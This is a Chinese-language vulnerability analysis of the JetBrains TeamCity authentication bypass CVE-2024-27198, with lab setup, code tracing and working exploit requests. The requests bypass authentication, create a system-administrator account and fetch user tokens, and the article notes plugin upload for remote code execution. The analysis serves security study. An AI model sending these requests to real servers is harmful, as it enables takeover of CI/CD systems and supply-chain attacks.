# 奇安信攻防社区 - CVE-2024-27198 JetBrains TeamCity 身份验证绕过漏洞浅析

## 简介

JetBrains TeamCity 是一款由 JetBrains 开发的持续集成和持续交付（CI/CD）服务器。JetBrains TeamCity 发布新版本 (2023.11.4) 修复了两个高危漏洞 JetBrains TeamCity 身份验证绕过漏洞 (CVE-2024-27198) 与 JetBrains TeamCity 路径遍历漏洞 (CVE-2024-27199)。未经身份验证的远程攻击者利用 CVE-2024-27198 可以绕过系统身份验证，创建管理员账户，完全控制所有 TeamCity 项目、构建、代理和构件，为攻击者执行供应链攻击。远程攻击者利用该漏洞能够绕过身份认证在系统上执行任意代码。

## 环境搭建

参考下面链接，使用 docker 搭建环境

[https://github.com/W01fh4cker/CVE-2024-27198-RCE?tab=readme-ov-file](https://github.com/W01fh4cker/CVE-2024-27198-RCE?tab=readme-ov-file)

```php
sudo docker pull jetbrains/teamcity-server:2023.11.3  
sudo docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```

也可以使用下面 docker-compose.yml ，其中 5005 是调试端口

```yml
version: '3.8'  
services:  
  teamcity:  
    image: jetbrains/teamcity-server:2023.11.3  
    container_name: teamcity  
    ports:  
      - "8111:8111"  
      - "5005:5005"  
    user: root
```

将源码拖出来

```bash
docker cp b0:/opt/teamcity ./
```

通过查看目录发现其中它是使用了 tomcat，主要的代码在 `teamcity/webapps/ROOT/` 里面

修改 `catalina.sh`，添加调试 （docker 内的 java 版本是 17）

```bash
CATALINA_OPTS="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"
```

然后将这个文件覆盖 docker 里面的 `catalina.sh`

```bash
docker cp ./teamcity/bin/catalina.sh b0:/opt/teamcity/bin 
```

重启即可使用 IDEA 调试

## 漏洞分析

JetBrains TeamCity 业务请求的分发处位于类 `jetbrains.buildServer.controllers.BaseController`，漏洞点就在这个类下的 `handleRequestInternal`

方法

```java
public final ModelAndView handleRequestInternal(HttpServletRequest request, HttpServletResponse response) throws Exception {  
    try {  
        ModelAndView modelAndView = this.doHandle(request, response);  
        if (modelAndView != null) {  
            if (modelAndView.getView() instanceof RedirectView) {  
                modelAndView.getModel().clear();  
            } else {  
                this.updateViewIfRequestHasJspParameter(request, modelAndView);  
            }  
        }  

        return modelAndView;  
    } catch (AccessDeniedException var8) {  
        ......  
    }
```

简单的查看一下代码

首先调用 doHandle 方法来获取请求的视图和模型，如果 `modelAndView` 为空，则直接返回，如果不为空则进入判断

在 if 语句里面还有一个判断，如果请求没有被重定向（即处理程序没有发出 HTTP 302 重定向），那么将调用 `updateViewIfRequestHasJspParameter` 方法

跟进这个方法查看：

```java
private void updateViewIfRequestHasJspParameter(@NotNull HttpServletRequest request, @NotNull ModelAndView modelAndView) {  
    boolean isControllerRequestWithViewName = modelAndView.getViewName() != null && !request.getServletPath().endsWith(".jsp");  
    String jspFromRequest = this.getJspFromRequest(request);  
    if (isControllerRequestWithViewName && StringUtil.isNotEmpty(jspFromRequest) && !modelAndView.getViewName().equals(jspFromRequest)) {  
        modelAndView.setViewName(jspFromRequest);  
    }  

}  

protected String getJspFromRequest(@NotNull HttpServletRequest request) {  
        String jspFromRequest = request.getParameter("jsp");  
        return jspFromRequest == null || jspFromRequest.endsWith(".jsp") && !jspFromRequest.contains("admin") ? jspFromRequest : null;  
    }
```

跟进上面代码可以发现 `modelAndView.setViewName(jspFromRequest)` , 如果可以控制 `jspFromRequest` 那么就可以访问一些需要认证的路径，`jspFromRequest` 来自 GET 参数 `jsp`

但是需要满足一些条件：

jsp 参数需要满足以`.jsp` 结尾，并且参数不能存在字符串 `admin/`

如果当前的 modelAndView 具有视图名称，并且当前请求的 servlet 路径不以.jsp 结尾，变量 isControllerRequestWithViewName 才会设置为 true

还有 jsp 参数所指的路径不能和 modelAndView 视图名称相同

就使用登录页调试 `login.html` 一下，设置参数 `?jsp=/app/rest/server`

为什么使用 `jsp=/app/rest/server`？ 因为 `/app/rest/server` 这个路径是 `TeamCity REST API` 是需要认证才能访问的，



如果直接访问会 401, 最后访问的是 `/unauthorized.html`



在 web.xml 中有写各个状态码对应的页面



OK 回归正题，调试分析

```html
GET /login.html?jsp=/app/rest/server
```



获取到了视图



因为 `modelAndView.getView()` 结果为 null，进入到了 `updateViewIfRequestHasJspParameter` 中，跟进



第一步因为 `modelAndView.getViewName()=login.jsp` 不为空和 `request.getServletPath()=login.html` 不以`.jsp` 结尾 ，所以 `isControllerRequestWithViewName = true`

往下获取 jsp 参数



因为传入的参数 `/app/rest/server` 不以`.jsp` 结尾，导致返回 null

这里该如何绕过？

跟据网传的 `payload`，只需要在参数后面添加 `;.jsp` 即可绕过，原理后面有解释

```http
GET /login.html?jsp=/app/rest/server;.jsp
```

获取到 jsp 参数值后，往下进入了 `modelAndView.setViewName`



```java
 public void setViewName(@Nullable String viewName) {  
        this.view = viewName;  
    }
```

这个方法会将该对象的参数 view 更新为 jsp 的参数值



然后在 `org.springframework.web.servlet.DispatcherServlet` 的 `resolveViewName` 方法进行视图渲染 ， 得到 `JstlView` 类型的 `view`



后面在执行获取视图路径的 `RequestDispatcher` 过程中，在 `org.apache.catalina.core.ApplicationContext` 里面的 `getRequestDispatcher` 方法会对 url 作如下处理：


其中 `stripPathParams` 方法会将 uri 中出现 `;` 及其之后的部分去除，因此最后请求 path 变为了 `/app/rest/server` ，进而绕过鉴权



整个漏洞利用过程大概就是这样子

上面我使用的路径是 `/login.html`，在网传的 payload 中都是通过访问一个不存在的路径触发 404，然后 servlet 路径为 / 404.html ，进而使 isControllerRequestWithViewName 为 true



## 漏洞利用

漏洞利用主要看的是 API 的功能，上面访问的 `/app/rest/server` 的返回了很多 API

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>  
<server version="2023.11.3 (build 147512)" versionMajor="2023" versionMinor="11" startTime="20240309T055615+0000" currentTime="20240309T082334+0000" buildNumber="147512" buildDate="20240129T000000+0000" internalId="9ef67929-e0cc-4182-b4b0-34d4ec728f42" role="main_node" webUrl="http://localhost:8111" artifactsUrl=""\>  
    <projects href="/app/rest/projects"/>  
    <vcsRoots href="/app/rest/vcs-roots"/>  
    <builds href="/app/rest/builds"/>  
    <users href="/app/rest/users"/>  
    <userGroups href="/app/rest/userGroups"/>  
    <agents href="/app/rest/agents"/>  
    <buildQueue href="/app/rest/buildQueue"/>  
    <agentPools href="/app/rest/agentPools"/>  
    <investigations href="/app/rest/investigations"/>  
    <mutes href="/app/rest/mutes"/>  
    <nodes href="/app/rest/server/nodes"/>  
</server>
```

添加管理员用户：

```http
POST /xxx?jsp=/app/rest/users;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: */*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate  
​  
{"username": "用户名", "password": "密码", "email": "test@n.com", "roles": {"role": \[{"roleId": "SYSTEM\_ADMIN", "scope": "g"}\]}}
```



获取用户列表

```http
GET /xxx?jsp=/app/rest/users;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: \*/\*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate
```



根据用户 ID, 获取用户 token

```http
GET /xxx?jsp=/app/rest/users/id:1/tokens/HaxorToken;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: \*/\*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate
```



...

要实现 RCE，就要通过第一个 payload 创建一个管理员用户，然后进到系统里面利用 TeamCity 的插件功能，上传自己写的插件进行 getshell

## END
